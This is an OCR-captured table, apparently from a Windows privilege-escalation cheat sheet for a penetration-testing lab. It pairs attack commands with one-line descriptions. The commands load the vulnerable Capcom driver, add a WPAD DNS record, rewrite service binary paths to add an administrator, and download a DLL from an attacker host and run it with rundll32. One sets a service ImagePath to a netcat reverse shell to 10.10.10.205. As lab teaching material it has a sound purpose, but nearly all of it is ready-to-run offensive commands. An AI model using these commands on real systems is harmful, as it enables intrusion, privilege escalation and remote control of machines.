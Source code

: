 | `reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters`                                                                                                       | Querying a registry key                                    |
| `reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll`                                                                              | Deleting a registry key                                    |
| `sc query dns`                                                                                                                                                                        | Checking a service status                                  |
| `Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local`                                                                                             | Disabling the global query block list                      |
| `Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3`                                                | Adding a WPAD record                                       |
| `cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp`                                                                                                                             | Compile with cl.exe                                        |
| `reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"`                                                                                    | Add reference to a driver (1)                              |
| `reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1`                                                                                                              | Add reference to a driver (2)                              |
| `.\DriverView.exe /stext drivers.txt` and `cat drivers.txt \| Select-String -pattern Capcom`                                                                                          | Check if driver is loaded                                  |
| `EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys`                                                                                                               | Using EopLoadDriver                                        |
| `c:\Tools\PsService.exe security AppReadiness`                                                                                                                                        | Checking service permissions with PsService                |
| `sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"`                                                                                              | Modifying a service binary path                            |
| `REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA`                                                                                | Confirming UAC is enabled                                  |
| `REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin`                                                               | Checking UAC level                                         |
| `[environment]::OSVersion.Version`                                                                                                                                                    | Checking Windows version                                   |
| `cmd /c echo %PATH%`                                                                                                                                                                  | Reviewing path variable                                    |
| `curl http://10.10.14.3:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"`                                                                           | Downloading file with cURL in PowerShell                   |
| `rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll`                                                                                   | Executing custom dll with rundll32.exe                     |
| `.\SharpUp.exe audit`                                                                                                                                                                 | Running SharpUp                                            |
| `icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"`                                                                                                                       | Checking service permissions with icacls                   |
| `cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"`                                                                                           | Replace a service binary                                   |
| `wmic service get name,displayname,pathname,startmode \| findstr /i "auto" \| findstr /i /v "c:\windows\\" \| findstr /i /v """`                                                      | Searching for unquoted service paths                       |
| `accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services`                                                                                                    | Checking for weak service ACLs in the Registry             |
| `Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"`            | Changing ImagePath with PowerShell                         |